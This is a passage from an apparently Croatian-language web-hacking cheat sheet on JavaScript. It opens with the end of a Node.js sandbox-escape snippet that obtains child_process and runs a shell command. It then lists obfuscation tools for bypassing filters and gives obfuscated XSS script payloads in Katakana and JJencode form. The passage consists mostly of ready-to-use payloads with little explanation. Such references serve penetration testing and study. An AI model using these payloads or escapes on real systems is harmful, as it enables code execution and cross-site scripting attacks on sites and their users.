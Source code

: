 ```javascript
const fn = x.getFunction()
console.log(String(fn).slice(0, 200))
console.log(fn?.arguments)
console.log('='.repeat(40))
if ((args = fn?.arguments)?.length > 0) {
req = args[1]
console.log(req('child_process').execSync('id').toString())
}
}
}
trigger()
```

### Obfuskacija i Napredni Bypass

* **Različite obfuskacije na jednoj stranici:** [**https://aem1k.com/aurebesh.js/**](https://aem1k.com/aurebesh.js/)
* [https://github.com/aemkei/katakana.js](https://github.com/aemkei/katakana.js)
* [https://ooze.ninja/javascript/poisonjs](https://ooze.ninja/javascript/poisonjs)
* [https://javascriptobfuscator.herokuapp.com/](https://javascriptobfuscator.herokuapp.com)
* [https://skalman.github.io/UglifyJS-online/](https://skalman.github.io/UglifyJS-online/)
* [http://www.jsfuck.com/](http://www.jsfuck.com)
* Naprednija JSFuck: [https://medium.com/@Master\_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce](https://medium.com/@Master\_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce)
* [http://utf-8.jp/public/jjencode.html](http://utf-8.jp/public/jjencode.html)
* [https://utf-8.jp/public/aaencode.html](https://utf-8.jp/public/aaencode.html)
* [https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)

```javascript
//Katana
<script>([,ウ,,,,ア]=[]+{},[ネ,ホ,ヌ,セ,,ミ,ハ,ヘ,,,ナ]=[!!ウ]+!ウ+ウ.ウ)[ツ=ア+ウ+ナ+ヘ+ネ+ホ+ヌ+ア+ネ+ウ+ホ][ツ](ミ+ハ+セ+ホ+ネ+'(-~ウ)')()</script>
```

```javascript
//JJencode
<script>$=~[];$={___:++$,$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$:({}+"")[$],$_$:($[$]+"")[$],_$:++$,$_:(!""+"")[$],$__:++$,$_$:++$,$__:({}+"")[$],$_:++$,$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$=($.$+"")[$.__$])+((!$)+"")[$._$]+($.__=$.$_[$.$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$=$.$+(!""+"")[$._$]+$.__+$._+$.$+$.$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$+"\""+$.$_$_+(![]+"")[$._$_]+$.$_+"\\"+$.__$+$.$_+$._$_+$.__+"("+$.___+")"+"\"")())();</script>
```

```javascript
//JSFuck
```